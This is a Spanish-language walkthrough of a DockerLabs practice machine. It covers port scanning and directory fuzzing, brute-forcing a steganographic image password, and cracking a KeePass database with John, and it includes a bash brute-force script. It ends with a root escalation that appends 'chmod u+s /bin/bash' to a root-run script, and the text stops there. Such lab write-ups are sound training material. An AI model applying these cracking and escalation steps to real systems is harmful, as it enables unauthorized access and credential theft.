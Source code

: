 

> Habilidades: Enumeración, esteganografía, fuerza bruta, escalada de privilegios
> 
![intro](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/Intro.png?raw=true)

# RECONOCIMIENTO

## Nmap Scan

Realizamos el primer sondeo a la IP de la víctima para averiguar qué puertos están abiertos:

~~~ bash
nmap --open -p- -n -sS -Pn --min-rate=5000 $ip -oG FirsScan
~~~

![Primer_Escaneo](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/FirsScan.png?raw=true)

- `--open`: Mostrar los puertos abiertos.
- `-p-`: Escanear todo el rango de puertos (65535)
- `-sS`: Escaneo TCP SYN, técnica más sigilosa para determinar el estado del puerto.
- `-n`: No aplicar resolución DNS.
- `-Pn`: Deshabilitar el descubrimiento de host, asumiendo que el objetivo se encuentra activo.
- `-oG`: Exportar el escaneo a un formato `Grepable`, util para extraer información.
- `--min-rate`: Tasa mínima de paquetes por segundo.

_____________________________________________________________________________________________________________________________________________________________________

### Enumerar Servicios

Realizamos enumeración a los puertos abiertos lanzando los scripts predeterminados e indicando la versión de los servicios. (-sC -sV)
~~~ bash
nmap -sVC -p 22,80 172.17.0.2 -oN ServicesScan
~~~

![ServicesScan](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/ServicesScan.png?raw=true)


- `-sC`: Ejecuta scripts NSE (Nmap Scripting Engine) predeterminados.
- `-sV`: Detecta la versión del servicio que se está ejecutando en cada puerto abierto.

_____________________________________________________________________________________________________________________________________________________________________

## Http Service

Vemos que el puerto `80` corresponde a un servicio HTTP. Vamos a investigar qué hay en él. Podemos usar la herramienta `whatweb` para listar las tecnologías detectadas en el servidor. (Como alternativa, puedes usar la extensión de navegador `Wappalyzer`).

~~~ bash
whatweb http://172.17.0.2
~~~

![whatweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/WhatWeb.png?raw=true)

Ahora nos dirigimos a reisar la web con el explorador. Vemos la pagina default del servidor Apache.

![Apache2Web](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/UbuntuWeb.png?raw=true)

Ahora realizaremos fuzzing para ver si encontramos algun directorio.


### Gobuster
~~~ bash
gobuster dir -u http://172.17.0.2 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 200 -x php,txt,html,php.bak
~~~
![gobuster](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/Gobuster.png?raw=true)

- `dir`: Modo de descubrimiento de directorios y archivos
- `-u`: Dirección URL
- `-w`: Diccionario a usar
- `-t 200`: Establecer 200 subprocesos 
- `-x php,txt,html,php.bak`: Busca extensiones de archivo

Encontramos un directorio interesante, penguin.html, nos dirigimos a la página a ver que podemos encontrar.

![penguinweb](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/penguinweb.png?raw=true)

Como siempre, revisamos también el código fuente, pero no encontramos nada. Vamos a revisar la imagen por si contuviera información oculta en los píxeles menos relevantes, usaremos la herramienta `steghide`. Con las opciones `extract` y `sf`.


## Stego

~~~
steghide extract -sf imagen.jpg
~~~

![steghide_pass](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/steghide_pass.png?raw=true)

El contenido de la imagen parece estár protegido por una contraseña. Hay herramientas para realizar fuerza bruta vamos a ello, `stegseek`.

~~~
stegseek penguin.jpg
~~~

![penguibruteforze](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/stegkek.png?raw=true)

Encontró la contraseña muy easy, exportó un arhivo con extensión kdbx y relativo a un gestor de contraseñas: `KeepPass`.





Al parecer, `chocolate` es la contraseña para extraer el archivo kdbx.
Lo extraemos e intentamos abrir con la misma contraseña sin suerte. Intentaremos fuerza bruta con la herramienta de ´keepass2john´ y `John`

![Extract_choco](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/Extract_choco.png?raw=true)

Primero, lo pasamos a un formato legible para john.

~~~
keepass2john penguin.kdbx > hash
~~~

A continuación, hacemos fuerza bruta al archivo `hash`.

![brute](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/burte.png?raw=true)
![force](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/force.png?raw=true)

~~~
john --wordlist=/usr/share/wordlists/rockyou.txt hash
john --show hash
~~~
**
<details>
    <summary>Script para la misma tarea que John</summary>

```bash
#!/bin/bash

# Pedir rutas al usuario con ejemplos
read -p "Ruta del archivo diccionario (ej: /usr/share/wordlists/rockyou.txt): " rockyou_file
read -p "Ruta del archivo imagen (ej: /home/user/Desktop/DockerLabs/HackPenguin/penguin.jpg): " image_file
read -p "Ruta del archivo kdbx (ej: /home/user/Desktop/DockerLabs/HackPenguin/database.kdbx): " database_file

# Variables
output=""
nIntentos=0

# Verificar si los archivos existen
[[ ! -f "$rockyou_file" ]] && echo "rockyou.txt no existe en la ruta indicada" && exit 1
[[ -f "$database_file" ]] && echo "kdbx existe. Borrándolo..." && rm "$database_file"
[[ ! -f "$image_file" ]] && echo "imagen.jpg no existe en la ruta indicada" && exit 1

# Leer y probar contraseñas
while IFS= read -r password; do
    output=$(steghide --extract -sf "$image_file" -p "$password" 2>&1)
    let "nIntentos++"
    if [[ $output == *"no pude"* ]]; then
        echo -ne "Probando... : $password\rNúmero de contraseñas probadas: $nIntentos\r"
    else
        echo -e "\n------------------------------------\nContraseña encontrada: $password"
        break
    fi
done < "$rockyou_file"
```
</details>
**

Abrimos el archivo con la contraseña encontrada, para ello usamos keepassxc:

![Keepasxc](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/keepassxc.png?raw=true)
~~~
keepassxc penguin.kdbx
~~~

Una vez dentro obtenemos usuario y contraesña.

![pinguinpass](https://github.com/wilasky/willy.github.io/blob/master/writeups-dockerlabs/machines/Medium/images/pinguipass.png?raw=true)


# Escalada de Privilegios

Nos conectamos al host mediante ssh con las credenciales encontradas y empezamos a enumerar el entorno.

~~~
ssh penguin@172.17.0.2
~~~

Sin ir muy lejos, vemos dos archivos en el directorio del usuario Penguin, y como vemos, el script se está ejecutando como root. 
Veamos que contienen.

~~~
ls -lah
cat archivo.txt
cat script.sh
~~~
![files]()

Lo unico que tenemos que hacer es modificar el script para que nos devuelva una shell como root al ejecutarlo.

~~~
echo 'chmod u+s /bin/bash' >> script.sh
~~~
![echo]()
















